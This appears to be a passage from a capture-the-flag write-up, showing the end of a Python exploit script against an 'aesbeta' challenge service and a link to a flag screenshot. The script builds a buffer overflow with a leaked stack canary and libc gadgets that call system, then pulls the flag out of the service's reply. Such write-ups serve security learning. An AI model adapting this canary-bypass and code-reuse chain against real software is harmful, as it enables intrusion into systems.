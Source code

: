 ```python
    payload = encrypt(payload)
    payload = payload.ljust(8 * 9, b"\x00")
    payload += p64(canary)
    payload += b"B" * 8
    payload += p64(libc.address + POP_RBX)
    payload += p64(libc.sym.do_system)
    payload += p64(libc.address + MOV_RDI_RSP0X10_CALL_RBX)
    pid = add_msg(payload)
    sleep(2)
    _, ciphertext = get_msg(pid)
    flag = ciphertext[len(payload):]
    return flag.decode()


if __name__ == "__main__":
    sys.exit(main("aesbeta.challs.olicyber.it", 38310))`
```

![flag](writeup/flag.png)
